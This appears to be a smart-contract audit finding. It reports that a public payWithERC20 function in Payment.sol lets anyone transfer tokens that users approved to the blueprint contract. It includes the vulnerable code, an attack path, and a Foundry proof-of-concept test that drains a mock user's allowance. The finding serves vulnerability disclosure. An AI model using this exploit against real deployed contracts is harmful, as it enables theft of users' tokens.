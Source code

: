 Prehistoric Topaz Moose

High

# Public payWithERC20 function will make the attacker steal from users.

### Summary

In Payment.sol

payWithERC20 function is defined as public

https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25

So attackers can transfer  token of the users that approved to blueprint contract to any address.

### Root Cause

In Payment.sol

```solidity
function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) public {
        // check from and to address
        require(fromAddress != toAddress, "Cannot transfer to self address");
        require(toAddress != address(0), "Invalid to address");
        require(amount > 0, "Amount must be greater than 0");
        IERC20 token = IERC20(erc20TokenAddress);
        token.safeTransferFrom(fromAddress, toAddress, amount);
    }
```

Blueprint inherited the Payment contract and the payWithERC20 function is defined as public.

So all users can call and transfer tokens from users that approved to blueprint contract to any address.




### Internal Pre-conditions

N/A

### External Pre-conditions

N/A

### Attack Path

1. Attacker will check users' allowance to blueprint.
2. If any user has allowance to blueprint, attacker will call payWithERC20 function with the allowance amount and his address as toAddress

### Impact

It's high impact as attacker can steal all tokens that is approved to blueprint.


### PoC

In BlueprintV5.t.sol

- Add following function

```solidity
function test_pay_public() public {
        address user = address(0x01);
        address attacker = address(0x02);

        mockToken.mint(user, 10e18);

        vm.prank(user);
        mockToken.approve(address(blueprint), 5e18);

        vm.prank(attacker);
        blueprint.payWithERC20(address(mockToken), mockToken.allowance(user, address(blueprint)), user, attacker);


        assertEq(mockToken.balanceOf(attacker), 5e18);
    }
```

- Result

[PASS] test_pay_public() (gas: 97551)

- As result shows, attacker stole 5e18 token from user who approved 5e18 to blueprint.

### Mitigation

Need to make payWithERC20 function as private.